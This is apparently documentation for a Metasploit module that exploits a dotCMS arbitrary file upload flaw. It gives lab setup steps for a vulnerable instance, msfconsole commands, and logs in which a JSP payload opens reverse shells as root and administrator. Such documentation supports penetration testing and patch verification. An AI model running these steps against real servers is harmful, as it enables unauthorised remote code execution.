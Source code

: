 ## Description
This module exploits an arbitrary file upload vulnerability in dotCMS versions before 22.03, 5.3.8.10, 21.06.7 in each 
respective stream. The module uploads a jsp payload to the tomcat ROOT directory. It then executes the payload to 
return a reverse shell.
## Vulnerable Application

### Clone and build a vulnerable version of dotCMS:
This requires Java 1.8 to be installed and JAVA_HOME to be set (see below for per OS instructions).
1. `git clone https://github.com/dotCMS/core.git`
1. `cd core`
1. `git checkout 7d604e5 (this is vulnerable version 21.06)`
1. `cd dotCMS/`
1. `./gradlew createDist`
```
Starting a Gradle Daemon (subsequent builds will be faster)

<output truncated>

BUILD SUCCESSFUL in 12m 53s
21 actionable tasks: 19 executed, 2 up-to-date
```

If the build was successful you should now have a vulnerable 21.06 linux and windows instance:
```
msfuser@ubuntu:~/core/dotCMS$ ls -l ../dist-output/
total 811132
-rw-rw-r-- 1 msfuser msfuser 413134562 May 20 10:22 dotcms_21.06.tar.gz
-rw-rw-r-- 1 msfuser msfuser 417462181 May 20 10:24 dotcms_21.06.zip
```

Inside each of the above compressed directories exists a directory `dotserver` which contains the vulnerable app.

### Ubuntu 20.04 install

#### Install JAVA 1.8 

1. `export JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"`
1. `export PATH=$JAVA_HOME/bin:$PATH`
1. `sudo apt-get install openjdk-8-jre`

#### Install Postgres 

1. `sudo apt install postgresql -y`
1. `sudo -u postgres psql`
1. Change the default database, username and password from `dotcms` to `postgres` (or create the db and user `dotcms`).
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/db.properties`
```
##Postgres default configuration
driverClassName=org.postgresql.Driver
jdbcUrl=jdbc:postgresql://localhost/postgres
username=postgres
password=postgres
```

#### Install Elastic Search

1. `sudo apt install apt-transport-https ca-certificates wget`
1. `wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo apt-key add -`
1. `sudo sh -c 'echo "deb https://artifacts.elastic.co/packages/7.x/apt stable main" > /etc/apt/sources.list.d/elastic-7.x.list'`
1. `sudo apt update`
1. `sudo apt install elasticsearch`
1. `sudo systemctl daemon-reload `
1. `sudo systemctl enable elasticsearch.service`
1. `sudo systemctl start elasticsearch.service`
1. `sudo systemctl status elasticsearch.service`
1. Edit `dotcms-config-cluster.properties` to ensure the following properties are set:
1. `vim $DOTCMS_HOME/dotserver/tomcat-9.0.41/webapps/ROOT/WEB-INF/classes/dotcms-config-cluster.properties`
```
ES_ENDPOINTS=http://localhost:9200

ES_PROTOCOL=http
ES_HOSTNAME=localhost
ES_PORT=9200

ES_TLS_ENABLED=false
```

#### Run dotCMS 

1. `cd dotserver/tomcat-9.0.41/bin/`
1. `chmod 755 *.sh`
1. `catalina.sh run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

### Windows 10 install

#### Install Java 1.8

1. Download and follow wizard to install:
    https://www.oracle.com/java/technologies/downloads/#license-lightbox

#### Install Elasticsearch 8.2.0

Download and follow wizard to install:
https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.2.0-windows-x86_64.zip dotcms-config-cluster.properties
1. Ensure dotcms-config-cluster.properties contains the same properties as specified above

#### Install Postgres 10.21

1. Download and follow wizard to install:
    https://www.enterprisedb.com/postgresql-tutorial-resources-training?uuid=ea5c8104-3940-4ed1-b427-81cf19781581&campaignId=70138000000rYFmAAM
1. Ensure db.properties contains the same properties as specified above

#### Run dotCMS

1. `cd dotserver\tomcat-9.0.41\bin\`
1. `catalina.bat run`
1. Test the server is up with: `curl -vk localhost:8080/dotAdmin/`

## Verification Steps
1. `use multi/http/dotcms_file_upload_rce`
2. `set RHOSTS [ips]`
3. `set LHOST [ips]`
4. `run`

## Scenarios

### Ubuntu 20.04 dotCMS 21.06:
```
msf6 > use exploit/multi/http/dotcms_file_upload_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.227
rhosts => 172.16.199.227
msf6 exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[+] Deleted ../webapps/ROOT/XZhKXIssjD.jsp
[+] Deleted ../webapps/ROOT/M4NYE9Kb.jsp
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.227:39610) at 2022-05-20 15:01:25 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.13.0-41-generic #46~20.04.1-Ubuntu SMP Wed Apr 20 13:16:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Windows 10 dotCMS 21.06:
```
msf6 > use dotcms_file_upload_rce
[*] Using exploit/multi/http/dotcms_file_upload_rce
msf6 exploit(multi/http/dotcms_file_upload_rce) > set rhosts 172.16.199.231
rhosts => 172.16.199.231
msf6 exploit(multi/http/dotcms_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/dotcms_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Writing JSP payload
[+] Successfully wrote JSP payload
[*] Executing JSP payload
[+] Successfully executed JSP payload
[!] Tried to delete ../webapps/ROOT/AkqMhxCZWr.jsp, unknown result
[!] Tried to delete ../webapps/ROOT/xdPfn9JTdu33X.jsp, unknown result
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.231:50016) at 2022-05-20 12:41:36 -0400


Shell Banner:
Microsoft Windows [Version 10.0.19042.1706]
(c) Microsoft Corporation. All rights reserved.
-----


C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>whoami
whoami
desktop-h1lncdm\administrator

C:\Users\Administrator\Downloads\dotcms_21.06\dotserver\tomcat-9.0.41\bin>systeminfo
systeminfo

Host Name:                 DESKTOP-H1LNCDM
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19042 N/A Build 19042

<output truncated>
```
Note on windows the module reports an unknown result when trying to delete the files though it does successfully 